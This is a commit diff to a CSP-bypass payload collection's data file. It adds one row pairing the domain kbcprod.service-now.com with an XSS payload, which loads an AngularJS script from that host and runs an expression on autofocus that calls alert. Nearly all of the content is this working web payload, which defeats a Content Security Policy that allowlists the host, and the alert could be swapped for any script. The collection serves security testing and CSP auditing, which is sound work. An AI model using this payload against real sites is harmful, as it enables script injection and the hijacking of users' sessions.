

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added kbcprod.service-now.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 77: kbcprod.service-now.com | <body ng-app ng-csp><script src="https://kbcprod.service-now.com/scripts/angular_includes_1.5.11.jsx"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
```
